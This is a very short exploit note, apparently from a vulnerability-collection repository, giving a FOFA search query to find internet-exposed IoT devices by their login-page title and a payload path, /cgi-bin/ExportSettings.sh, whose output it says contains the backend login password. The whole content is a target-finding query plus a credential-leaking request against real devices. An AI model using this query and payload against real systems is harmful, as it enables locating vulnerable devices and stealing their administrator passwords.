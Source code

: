 <languages />

FOFA
----

    title="互联世界 物联未来-登录"

Payload
-------

    /cgi-bin/ExportSettings.sh

其中password为登录后台密码
